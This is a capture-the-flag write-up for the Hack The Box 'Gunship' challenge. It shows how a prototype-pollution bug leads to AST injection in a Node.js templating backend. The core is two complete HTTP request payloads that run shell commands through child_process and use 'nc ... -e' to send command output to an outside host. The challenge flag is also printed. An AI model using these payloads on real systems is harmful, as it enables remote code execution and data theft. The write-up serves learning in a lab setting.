



# Gunship

In the source code there is a comment “inflatten AST injection”. File fragment with this comment can be seen on the Figure 1. 



Figure 1 – File fragment with the comment

We googled “inflatten AST injection” and found the following article https://blog.p6.is/AST-Injection/.
We used the code from this article and did some requests:

```
POST /api/submit HTTP/1.1
Host: docker.hackthebox.eu:30318
Content-Length: 405
Content-Type: application/json

{"artist.name":"Westaway",
  "__proto__.type": "Program",
    "__proto__.body": [{
        "type": "MustacheStatement",
        "path": 0,
        "params": [{
            "type": "NumberLiteral",
            "value": "process.mainModule.require('child_process').execSync(`nc 31337.me 4445 -e ls`)"
        }],
        "loc": {
            "start": 0,
            "end": 0
        }
    }]
}
```

After executing the code above, we received a connection, which can be seen on the Figure 2.
 


Figure 2 – Received connection


The following payload will display file content “flagyedEl” to the console:

```
POST /api/submit HTTP/1.1
Host: docker.hackthebox.eu:30318
Content-Length: 416
Content-Type: application/json
{"artist.name":"Westaway",
  "__proto__.type": "Program",
    "__proto__.body": [{
        "type": "MustacheStatement",
        "path": 0,
        "params": [{
            "type": "NumberLiteral",
            "value": "process.mainModule.require('child_process').execSync(`nc 31337.me 4445 -e cat flagyedEl`)"
        }],
        "loc": {
            "start": 0,
            "end": 0
        }
    }]
}
```

The result of execution of the code above can be seen on Figure 3.



Figure 3 – The result of “cat flagyedEl” command execution

Flag: HTB{wh3n_l1f3_g1v3s_y0u_p6_st4rt_p0llut1ng_w1th_styl3}.
